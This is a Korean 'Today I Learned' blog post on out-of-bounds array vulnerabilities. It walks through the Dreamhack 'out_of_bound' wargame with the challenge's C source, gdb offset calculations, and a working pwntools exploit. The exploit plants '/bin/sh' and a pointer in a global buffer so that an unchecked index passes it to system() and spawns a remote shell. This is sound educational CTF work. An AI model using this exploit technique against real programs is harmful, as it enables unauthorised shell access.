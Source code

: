 ```yaml
---
title:  "TIL: Out of bound 〰️"
excerpt: "2022.08.06 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## Out of Bounds

**Out of bounds 취약점**을 이용해 **임의의 address에 write or read**할 수 있다. 이를 위해서는 **target과 array의 offset**을 알아내야 한다.

만약 target과 array가 **같은 segment 상**에 있다면 둘 사이의 **offset은 항상 일정**하므로 debugging을 통해 쉽게 알아낼 수 있지만, **같은 segment가 아니라면 다른 취약점을 이용**해 둘 사이의 차이를 구한 뒤 이를 활용해야 한다.

### gdb로 변수 address 확인하기

두 변수의 **offset을 확인**하기 위해 각 변수들의 address를 확인하려면 **gdb를 이용**하면 된다.

```
pwndbg> i var isAdmin
Non-debugging symbols:
0x0000000000201130  isAdmin
pwndbg> i var stu
Non-debugging symbols:
0x0000000000201040  stu
pwndbg> print 0x201130-0x201040
$1 = 240
```

## Wargame: [out_of_bound](https://dreamhack.io/wargame/challenges/11/)

문제의 소스 코드는 아래와 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

### Vulnerability scanning

- `checksec`
    
    <p align="center">
		<a href="/assets/images/TIL220806/Untitled.png">
			<img src="/assets/images/TIL220806/Untitled.png" width="600">
   		</a>
	</p>
    
- `system(command[idx]);`에서 `idx`가 특정 범위 안에 있는지 확인하지 않으므로 **oob 취약점**이 있다.

### Memory 구조 파악하기

oob 취약점을 이용하기 위해 gdb로 memory 구조를 파악한다.

<p align="center">
	<a href="/assets/images/TIL220806/Untitled (1).png">
		<img src="/assets/images/TIL220806/Untitled (1).png" width="600">
   	</a>
</p>

같은 방법으로 `name`의 주소도 확인하면 `command`의 주소는 0x0804a060이고, `name`의 주소는 0x0804a0ac임을 알 수 있다.

### Exploit

`command`는 `char *`의 array이고, `char *`의 size는 4 byte이다. 또한 `command`의 주소에서 `name`의 주소까지의 차이는 76 byte, 즉 **19개의** `char *`**만큼의 차이**이므로 `command[19]`**가** `name`**의 첫 4 byte에 해당함**을 알 수 있다.

`“/bin/sh”`를 `system`의 argument로 넣으면 shell을 획득할 수 있으므로 `name`**에** `"/bin/sh"`**과** `name`**의 주소를 입력**해 이 `name`**의 주소를** `system`**의 argument로 주도록** exploit한다.

```python
from pwn import *

p = remote("host3.dreamhack.games", 16207)

p.recvuntil("Admin name: ")
payload = b"/bin/sh"
payload += b"\x00"
payload += p32(0x0804a0ac)
p.sendline(payload)
p.recvuntil("What do you want?: ")
p.sendline("21")

p.interactive()
```

- `"/bin/sh"`에 **NULL byte**를 덧붙여줘야 한다.
- `command[19]`, `command[20]`이 `"/bin/sh\x00"`에 해당하고, 그 뒤의 주소가 `command[21]`**에 해당**하므로 마지막에 21을 send해야 한다.